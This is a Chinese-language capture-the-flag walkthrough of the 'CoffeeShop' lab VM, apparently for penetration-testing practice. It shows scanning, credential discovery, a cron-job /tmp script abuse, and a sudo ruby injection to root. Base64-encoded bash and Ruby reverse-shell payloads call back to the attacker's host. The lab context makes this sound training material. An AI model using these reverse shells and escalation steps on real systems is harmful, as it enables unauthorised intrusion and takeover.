





# CoffeeShop

:::note

[Linux VM] [Tested on VirtualBox and VMWare.] created by || MrMidnight

⏲️ Release Date // 2024-01-15

✔️ MD5 // e90384f1c4fadc3897f53236768cdea1

☠ Root // 178

💀 User // 175

📝 Notes //
My first ever VM! Enjoy

:::

## 靶机启动

靶机 IP

```plaintext
192.168.56.128
```

## 信息搜集

```shell
┌──(randark ㉿ kali)-[~]
└─$ sudo nmap --min-rate=2000 -v -A -p- 192.168.56.128
Nmap scan report for bogon (192.168.56.128)
Host is up (0.00041s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 81:a4:52:2b:14:3f:13:68:2b:e2:5b:c4:7b:d7:1a:a5 (ECDSA)
|_  256 25:19:09:29:2f:b8:ea:b4:29:1f:6d:e7:13:d6:be:7e (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Under Construction - Midnight Coffee
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
MAC Address: 08:00:27:E0:32:F1 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4)
Uptime guess: 12.242 days (since Fri Mar 28 08:19:15 2025)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=254 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

尝试直接访问



将 `midnight.coffee` 添加为 hosts 记录之后，尝试进行目录爆破和子域名爆破

```shell
┌──(randark ㉿ kali)-[~]
└─$ gobuster vhost -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 200 --append-domain -u http://midnight.coffee/
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://midnight.coffee/
[+] Method:          GET
[+] Threads:         200
[+] Wordlist:        /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.midnight.coffee Status: 200 [Size: 1738]
Progress: 114441 / 114442 (100.00%)
===============================================================
Finished
===============================================================

┌──(randark ㉿ kali)-[~]
└─$ dirsearch -u midnight.coffee
Target: http://midnight.coffee/

[14:11:36] Starting:
[14:11:38] 403 -  280B  - /.ht_wsr.txt
[14:11:38] 403 -  280B  - /.htaccess.bak1
[14:11:38] 403 -  280B  - /.htaccess.orig
[14:11:38] 403 -  280B  - /.htaccess.sample
[14:11:38] 403 -  280B  - /.htaccess.save
[14:11:38] 403 -  280B  - /.htaccess_orig
[14:11:38] 403 -  280B  - /.htaccess_extra
[14:11:38] 403 -  280B  - /.htaccessOLD
[14:11:38] 403 -  280B  - /.htaccessBAK
[14:11:38] 403 -  280B  - /.htaccessOLD2
[14:11:38] 403 -  280B  - /.htaccess_sc
[14:11:38] 403 -  280B  - /.htm
[14:11:38] 403 -  280B  - /.html
[14:11:38] 403 -  280B  - /.htpasswd_test
[14:11:38] 403 -  280B  - /.htpasswds
[14:11:38] 403 -  280B  - /.httr-oauth
[14:11:38] 403 -  280B  - /.php
[14:12:31] 403 -  280B  - /server-status
[14:12:31] 403 -  280B  - /server-status/
[14:12:32] 301 -  317B  - /shop  ->  http://midnight.coffee/shop/
```

## Web Service

尝试访问 `http://midnight.coffee/shop/`



发现存在有登录功能点 `http://midnight.coffee/shop/login.php`



同时访问 `http://dev.midnight.coffee/` 能够得到一份凭据



```plaintext
developer:developer
```

将获得的凭据在 `http://midnight.coffee/shop/login.php` 中进行登录，可以得到



```plaintext
To login into the server use: tuna : 1L0v3_TuN4_Very_Much
```

## User tuna

```shell
┌──(randark ㉿ kali)-[~]
└─$ pwncat-cs tuna@192.168.56.128
[14:20:20] Welcome to pwncat 🐈!
Password: ********************
[14:20:25] 192.168.56.128:22: registered new host w/ db
(local) pwncat$ back
(remote) tuna@coffee-shop:/home/tuna$ whoami
tuna
```

## 提权至 shopadmin

尝试上传 `linpeas.sh` 进行提权分析

```plaintext
╔══════════╣ Cron jobs
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#scheduled-cron-jobs
/usr/bin/crontab
incrontab Not Found
-rwxrwxrwx 1 root root    1184 Jan  3  2024 /etc/crontab

/etc/cron.d:
total 20
drwxr-xr-x   2 root root 4096 Jan  3  2024 .
drwxr-xr-x 101 root root 4096 Jan  3  2024 ..
-rw-r--r--   1 root root  201 Jan  8  2022 e2scrub_all
-rw-r--r--   1 root root  712 Jan 28  2022 php
-rw-r--r--   1 root root  102 Mar 23  2022 .placeholder

/etc/cron.daily:
total 36
drwxr-xr-x   2 root root 4096 Jan  3  2024 .
drwxr-xr-x 101 root root 4096 Jan  3  2024 ..
-rwxr-xr-x   1 root root  539 May  3  2023 apache2
-rwxr-xr-x   1 root root  376 Nov 11  2019 apport
-rwxr-xr-x   1 root root 1478 Apr  8  2022 apt-compat
-rwxr-xr-x   1 root root  123 Dec  5  2021 dpkg
-rwxr-xr-x   1 root root  377 May 25  2022 logrotate
-rwxr-xr-x   1 root root 1330 Mar 17  2022 man-db
-rw-r--r--   1 root root  102 Mar 23  2022 .placeholder

/etc/cron.hourly:
total 12
drwxr-xr-x   2 root root 4096 Aug 10  2023 .
drwxr-xr-x 101 root root 4096 Jan  3  2024 ..
-rw-r--r--   1 root root  102 Mar 23  2022 .placeholder

/etc/cron.monthly:
total 12
drwxr-xr-x   2 root root 4096 Aug 10  2023 .
drwxr-xr-x 101 root root 4096 Jan  3  2024 ..
-rw-r--r--   1 root root  102 Mar 23  2022 .placeholder

/etc/cron.weekly:
total 16
drwxr-xr-x   2 root root 4096 Aug 10  2023 .
drwxr-xr-x 101 root root 4096 Jan  3  2024 ..
-rwxr-xr-x   1 root root 1020 Mar 17  2022 man-db
-rw-r--r--   1 root root  102 Mar 23  2022 .placeholder

SHELL=/bin/sh

17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || (cd / && run-parts --report /etc/cron.daily)
47 6    * * 7   root    test -x /usr/sbin/anacron || (cd / && run-parts --report /etc/cron.weekly)
52 6    1 * *   root    test -x /usr/sbin/anacron || (cd / && run-parts --report /etc/cron.monthly)
* * * * * /bin/bash /home/shopadmin/execute.sh
```

查看脚本文件的内容

```bash title="/home/shopadmin/execute.sh"
#!/bin/bash

/bin/bash /tmp/*.sh
```

尝试利用这个定时任务

```shell
(remote) tuna@coffee-shop:/home/tuna$ echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEyNy85OTk5IDA+JjE= | base64 -d
bash -i >& /dev/tcp/192.168.56.127/999
(remote) tuna@coffee-shop:/home/tuna$ echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEyNy85OTk5IDA+JjE= | base64 -d > /tmp/shell-1.sh
```

稍等片刻，即可收到回连的 shell

```shell
┌──(randark ㉿ kali)-[~]
└─$ pwncat-cs -lp 9999
[14:26:37] Welcome to pwncat 🐈!
[14:28:02] received connection from 192.168.56.128:39020
[14:28:02] 192.168.56.128:39020: registered new host w/ db
(local) pwncat$ back
(remote) shopadmin@coffee-shop:/home/shopadmin$ whoami
shopadmin
```

## FLAG - USER

```flag title="/home/shopadmin/user.txt"
/home/shopadmin
```

## 提权至 root

```shell
(remote) shopadmin@coffee-shop:/home/shopadmin$ sudo -l
Matching Defaults entries for shopadmin on coffee-shop:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User shopadmin may run the following commands on coffee-shop:
    (root) NOPASSWD: /usr/bin/ruby * /opt/shop.rb
```

那么就很简单了，中间可以插入任意参数的话，就可以继续构造反弹 shell

```shell
# Machine
(remote) shopadmin@coffee-shop:/home/shopadmin$ echo cmVxdWlyZSAnc29ja2V0JwoKcyA9IFNvY2tldC5uZXcgMiwxCnMuY29ubmVjdCBTb2NrZXQuc29ja2FkZHJfaW4gOTk5OCwgJzE5Mi4xNjguNTYuMTI3JwoKWzAsMSwyXS5lYWNoIHsgfGZkfCBzeXNjYWxsIDMzLCBzLmZpbGVubywgZmQgfQpleGVjICcvYmluL3NoIC1pJwo= | base64 -d
require 'socket'

s = Socket.new 2,1
s.connect Socket.sockaddr_in 9998, '192.168.56.127'

[0,1,2].each { |fd| syscall 33, s.fileno, fd }
exec '/bin/sh -i'
(remote) shopadmin@coffee-shop:/home/shopadmin$ echo cmVxdWlyZSAnc29ja2V0JwoKcyA9IFNvY2tldC5uZXcgMiwxCnMuY29ubmVjdCBTb2NrZXQuc29ja2FkZHJfaW4gOTk5OCwgJzE5Mi4xNjguNTYuMTI3JwoKWzAsMSwyXS5lYWNoIHsgfGZkfCBzeXNjYWxsIDMzLCBzLmZpbGVubywgZmQgfQpleGVjICcvYmluL3NoIC1pJwo= | base64 -d > /tmp/shell-2.rb
(remote) shopadmin@coffee-shop:/home/shopadmin$ sudo /usr/bin/ruby /tmp/shell-2.rb /opt/shop.rb
```

即可收到回连的 shell

## User root

```shell
┌──(randark ㉿ kali)-[~]
└─$ pwncat-cs -lp 9998
[14:33:20] Welcome to pwncat 🐈!
[14:34:40] received connection from 192.168.56.128:42732
[14:34:40] 0.0.0.0:9998: upgrading from /usr/bin/dash to /usr/bin/bash
[14:34:41] 192.168.56.128:42732: registered new host w/ db
(local) pwncat$ back
(remote) root@coffee-shop:/home/shopadmin# whoami
root
```

## FLAG - ROOT

```flag title="/root/root.txt"
C4FF3331N-ADD1CCCTIONNNN
```
